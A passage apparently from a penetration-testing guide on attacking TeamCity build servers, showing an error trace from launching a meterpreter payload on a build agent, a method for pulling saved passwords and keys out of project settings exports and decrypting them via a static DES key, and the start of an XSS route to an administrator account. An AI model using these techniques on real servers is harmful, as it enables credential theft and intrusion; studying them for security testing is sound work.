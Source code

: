 ```
At line:1 char:368
+ ... ar', 'C:\teamcity\buildAgent\temp\buildTmp\meterpreter.jar.jar'; version
+                                                                   ~~~~~~~
    + CategoryInfo          : ObjectNotFound: (version:String) [], CommandNotF
   oundException
    + FullyQualifiedErrorId : CommandNotFoundException

```



#### Saved credentials

TeamCity stores things like `VCS root passwords`, `password parameters` or `SSH keys` in encrypted form and doesn't show it's contents on web or api interface.

But it can be bypassed using `export` function. Go to **Your project->Settings Export->Export**

![Project export](images/project_export.png)

Those files looks like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" uuid="b7c3d616-ddd2-456c-b80d-95d0761bad39" xsi:noNamespaceSchemaLocation="http://www.jetbrains.com/teamcity/schemas/2017.2/project-config.xsd">
  <name>exploiter</name>
  <parameters />
  <project-extensions>
    <extension id="PROJECT_EXT_2" type="OAuthProvider">
      <parameters>
        <param name="displayName" value="Docker Registry" />
        <param name="providerType" value="Docker" />
        <param name="repositoryUrl" value="https://docker.io" />
        <param name="secure:userPass" value="zxxyour_encrypted_passwords" />
        <param name="userName" value="my_user_name" />
      </parameters>
    </extension>
  </project-extensions>
  <cleanup />
</project>
```

Encrypted strings starts with `zxx` and are encoded using [DES with static key](http://www.exfiltrated.com/research/teamcity-secret-decrypt.py).

#### Administrator account using XSS

As we can read in [Teamcity Bug Tracker #TW-27206](https://youtrack.jetbrains.com/issue/TW-27206): `Malicious data in build artifacts can initiate XSS attack`.

Currently, all .html (and some other) files from build artifacts are rendered in the browser on clicking on them.
